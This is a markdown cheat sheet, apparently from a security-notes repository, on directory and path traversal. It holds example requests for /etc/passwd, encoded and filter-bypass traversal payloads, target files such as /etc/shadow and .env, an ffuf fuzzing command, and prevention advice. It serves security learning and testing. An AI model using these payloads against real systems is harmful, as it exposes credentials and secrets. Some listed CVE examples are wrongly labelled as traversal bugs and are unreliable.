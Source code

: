 # Directory Traversal / Path Traversal

## Overview
Directory traversal, also known as path traversal, is a security vulnerability that allows an attacker to access files and directories stored outside the intended web root folder. Exploiting this flaw may lead to unauthorized access to sensitive files, configuration files, or even system-level resources.

## How It Works
This vulnerability arises when user-supplied input is not properly sanitized before being used in file system operations. By injecting special characters like `../` (dot-dot-slash), attackers can manipulate file paths to traverse up the directory structure and access restricted files.

### Example Request
```
GET /files/../../../etc/passwd HTTP/1.1
Host: vulnerable-website.com
```
### Example URL
```bash
https://tager.com/image?file=../../../../etc/passwd
``` 

## 🔐 Payload Cheat Sheet

### Basic Traversals
- `../` — Unix-style path traversal
- `..\\` — Windows-style path traversal
- `../../etc/passwd` — Multi-level traversal
- `..%2F` — URL-encoded `../`
- `..%5C` — URL-encoded `..\\`

### Obfuscated / Filter Bypass Payloads
- `..%252f` — Double-encoded `../`
- `....//....//` — Trick filters into allowing traversal
- `....\\\\....\\\\` — Windows obfuscation
- `%2e%2e%2f` — Encoded `../`
- `%2e%2e/` — Alternative encoding
- `..%c0%af` — Unicode-encoded slash
- `../../../etc/passwd%00.png` — Null byte injection to bypass file extensions

## 🗂 Common Target Files
- `/etc/passwd` — Linux user accounts
- `/etc/shadow` — Linux password hashes
- `/proc/self/environ` — Environment variables
- `.env` — Environment configuration (contains secrets)
- `WEB-INF/web.xml` — Java web app config
- `C:\Windows\win.ini` — Windows system config

## 💥 Impact
- Disclosure of sensitive configuration files
- Leakage of credentials or API keys
- Access to application source code
- Information leakage about server or environment
- Possibility of remote code execution (via chained exploits)

## 🛠 Tools for Testing

### Dedicated Tools
- [dotdotpwn](https://github.com/wireghoul/dotdotpwn) - Automated directory traversal tool  
- [PathTraversalScanner](https://github.com/PathTraversalScanner) - Directory traversal scanner
- [PathTraversal](https://github.com/PathTraversal) - Directory traversal tool

### Common Tools
- [Burp Suite](https://portswigger.net/burp) - Web vulnerability scanner
- [OWASP ZAP](https://www.zaproxy.org/) - Open-source web application security scanner
- [DirBuster](https://www.owasp.org/index.php/Category:DirBuster) - Directory brute-forcing tool
- [Nikto](https://cirt.net/Nikto2) - Web server scanner
- [Ffuf](https://github.com/ffuf/ffuf) - Fuzz faster U Fool

### Ffuf Example
```bash
ffuf -u https://vulnerable-website.com/image?filename=FUZZ -w /path/to/wordlist.txt -fs 1234 -fc 403
``` 

## Articles
- [Practical Guide Path Traversal Attacks](https://www.yeswehack.com/learn-bug-bounty/practical-guide-path-traversal-attacks)
- [A Guide to Directory Traversal Vulnerability in 2024](https://medium.com/@certcube1/a-guide-to-directory-traversal-vulnerability-in-2024-50c5fafd0796)


## 📚 Resources(Practice)
- [PortSwigger - Directory Traversal](https://portswigger.net/web-security/file-path-traversal)
- [OWASP - Directory Traversal](https://owasp.org/www-community/attacks/Path_Traversal)
- [Acunetix - Directory Traversal](https://www.acunetix.com/websitesecurity/directory-traversal/)

## 🧨 CVE Examples
- [CVE-2017-5638](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5638) - Apache Struts
- [CVE-2021-22986](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22986) - F5 BIG-IP
- [CVE-2020-1938](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1938) - Apache Tomcat (Ghostcat)
- [CVE-2020-36289](https://nvd.nist.gov/vuln/detail/CVE-2020-36289) - OpenAsset traversal with `....//....//`

## 🛡️ Prevention

1. **Sanitize and Validate Input**  
   - Reject dangerous characters and patterns like `../`, `%00`, or encoded traversal sequences.  
   - Use allow-lists for filenames and extensions.

2. **Use Secure File APIs**  
   - Normalize file paths using secure functions (e.g., `realpath()` in PHP or Python).

3. **Enforce Access Controls**  
   - Restrict file access using file system permissions and sandboxing techniques.

4. **Monitor and Log Access**  
   - Log all file access attempts and monitor for repeated suspicious behavior.

5. **Perform Regular Audits**  
   - Conduct regular penetration testing, source code reviews, and use static analysis tools.

---
## Happy hunting! 👾
---